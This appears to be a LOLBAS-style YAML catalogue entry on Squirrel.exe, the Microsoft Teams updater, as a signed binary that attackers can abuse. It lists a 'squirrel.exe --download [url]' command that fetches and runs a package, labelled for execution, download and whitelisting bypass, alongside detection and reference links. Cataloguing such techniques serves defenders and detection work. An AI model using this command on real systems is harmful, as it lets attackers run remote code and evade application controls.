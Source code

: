 ```yaml
---
Name: Squirrel.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Reegun J (OCBC Bank) - @reegun21'
Created: '2019-06-26'
Commands:
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218 
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 10
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Download
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\current\Squirrel.exe'
Code_Sample: 
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection: 
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

